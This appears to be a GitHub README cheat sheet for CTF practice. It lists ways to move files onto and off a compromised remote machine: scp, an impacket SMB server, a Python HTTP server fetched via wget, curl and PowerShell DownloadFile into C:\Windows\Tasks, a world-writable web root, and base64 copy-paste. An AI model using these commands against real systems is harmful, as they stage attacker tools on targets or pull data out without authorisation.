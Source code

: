 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/Path/file.ext
```

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\sourceIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\sourceIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR.
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/fiile.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp *.ext /var/www/html/
chmod 0777 /var/www/html/*.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string.
```bash
vim string.b64
```
Paste the string to any Text-Editor.
```bash
base64 -d string.b64 > file.ext
```
